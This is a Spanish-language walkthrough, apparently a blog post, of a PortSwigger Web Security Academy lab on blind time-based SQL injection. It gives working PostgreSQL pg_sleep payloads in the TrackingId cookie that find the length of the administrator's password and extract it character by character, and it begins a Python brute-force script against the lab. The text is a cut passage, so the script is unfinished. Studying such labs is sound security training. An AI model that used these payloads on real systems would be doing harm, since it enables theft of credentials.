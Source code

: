 ![0seg](/assets/images/SQLiPortswigger/lab14/0seg.png)

Podemos ver que tardo 0 segundos, por lo que nuestra consulta funciona y en base al tiempo podemos ir sabiendo que cosas son verdaderas y que no.

<br>

Así que sabemos que hay un usuario administrator en la tabla users con columna llamada "password", por lo que crearemos la consulta basada en esos datos:

`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(5) else pg_sleep(0) END FROM users WHERE username='administrator')||'`

En caso de que el usuario "administrator" exista en la tabla users, comprobara si el primer carácter de la contraseña de administrator es "a", en caso de serlo tardara 5 segundos, en caso de no serlo tardara 0 segundos en responder.

Así que al tramitar esta consulta nos damos cuenta de que respondió en 0 segundos.

Por lo que probamos con otros caracteres y nos dimos cuenta de que iniciaba con otro carácter.

<br>

Ahora ocupamos saber la longitud de la contraseña, que sabemos es usando:

`TrackingId=xyz'||( SELECT CASE WHEN LENGTH(password)>=20 then pg_sleep(5) else pg_sleep(0) end FROM users WHERE username='administrator')||'`

Le decimos que en caso de que exista el usuario administrator en la tabla users, nos  verifique si la columna password de la fila de administrator su longitud es mayor o igual a 20, y descubrimos que es igual a 20, por lo que la longitud ya la tenemos.

<br>

Así que para automatizar lo de dumpear la contraseña de ese usuario reutilizaremos el script que ya tenemos programado solo cambiando algunas cosas:

```bash
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a3600b204db9b59c084f05d00880084.web-security-academy.net/"
characters = string.ascii_lowercase + string.digits

```